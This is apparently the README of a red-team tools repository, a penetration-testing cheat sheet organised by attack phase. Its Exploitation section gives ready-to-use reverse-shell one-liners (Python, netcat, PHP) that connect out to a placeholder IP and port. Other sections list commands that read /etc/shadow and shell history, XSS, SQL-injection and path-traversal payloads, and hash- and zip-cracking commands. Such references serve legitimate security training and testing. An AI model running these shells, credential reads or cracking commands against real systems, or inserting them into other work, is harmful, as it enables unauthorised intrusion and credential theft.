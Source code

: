 # 🛠️ Red team tools, tips & tricks

A collection of random custom scripts for penetration testing and red team tasks.

## 📌 Includes

* 🔁 Automation scripts
* 🔍 Reconnaissance tools
* 📡 Scanning utilities
* 💥 Exploitation scripts
* 🩻 Post-exploitation helpers
* 📄 Report generation tools
* 🗒️ Notes & cheat sheets



## 📚 Table of Contents

* [Tips-tricks](#-tips--tricks)
* [Recon & Enumeration](#-recon--enumeration)
* [Exploitation](#-exploitation)
* [Post-Exploitation](#-post-exploitation)
* [Privilege Escalation](#-privilege-escalation)
* [Web Attacks](#-web-attacks)
* [Password Attacks](#-password-attacks)
* [Tools Reference](#-tools-reference)
* [General Notes](#-general-notes)

-----

📂 Repo-Structure
```
red-team-tools/
├── automation/
├── recon/
├── scanning/
├── exploitation/
├── post-exploitation/
├── reporting/
└── README.md/
```

---

## 🌟 Tips & tricks


Green Powershell
```
$Host.UI.RawUI.ForegroundColor = 'Green'
```


Command Prompt color
Navigate to Environmental Variables > New User variable
```
Name: prompt
Value: $E[1;30;104m►$E[1;37;104m $P $E[1;94;40m►$E[0m
```

Find your public IP address right on the terminal
```
curl -s wtfismyip.com/json | jq
curl ifconfig.me
```

Automatically install essential hacking & dev tools on a fresh linux install

\- [Install tools script](https://github.com/80h3m14n/red-team-tools/blob/main/automation/install-tools.sh)


---

## 🔍 Recon & Enumeration

```bash
# DNS Lookup
dig domain.com any +short
host domain.com

# Subdomain fuzzing
ffuf -w subs.txt -u https://FUZZ.target.com

# Nmap full scan
nmap -p- -T4 -A -v target.com
```

---

## 💥 Exploitation

```bash
# Python reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# Netcat reverse shell
nc -e /bin/sh IP PORT

# PHP reverse shell
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🩻 Post-Exploitation

```bash
# Grab users & creds
cat /etc/passwd
cat /etc/shadow
history

# Network info
ip a
netstat -tulpn

# SUID Binaries
find / -perm -4000 -type f 2>/dev/null
```

---

## 🧱 Privilege Escalation

```bash
# Check kernel for exploits
uname -a
linux-exploit-suggester.sh

# Check sudo rights
sudo -l

# Writable files/directories
find / -writable -type f 2>/dev/null
```

---

## 💬 Web Attacks

```bash
# XSS payload
<script>alert('xss')</script>

# SQL Injection test
' OR '1'='1

# Local File Inclusion
../../../../etc/passwd
```

---

## 🔐 Password Attacks

```bash
# Hashcat basic usage
hashcat -m 0 hash.txt rockyou.txt

# John the Ripper
john --wordlist=rockyou.txt hashes.txt

# Zip password crack
fcrackzip -v -u -D -p rockyou.txt file.zip
```

---

## 🧰 Tools Reference

```bash
# Gobuster
gobuster dir -u http://target.com -w wordlist.txt

# Nikto
nikto -h http://target.com

# Burp Suite
# Set proxy to 127.0.0.1:8080 and route traffic from tools
```




## 📝 General Notes
Check for .bak, .old, .zip files on webservers

Default creds go a long way

Look for dev/test/staging endpoints

Don’t sleep on SSRF, IDOR, or misconfigured cloud buckets

Always verify shell stability (TTY, backgrounding)

Additional resources
\- [Roadmaps](https://roadmap.sh/)

---

## 🧾 License

Free to use, share, and modify under the MIT License.


---

## ⚠️ Disclaimer

This repository is strictly for **educational and research** purposes.
I take **no responsibility** for misuse, illegal activity, or any damage caused by these tools.
**Use responsibly. Don't be dumb.**

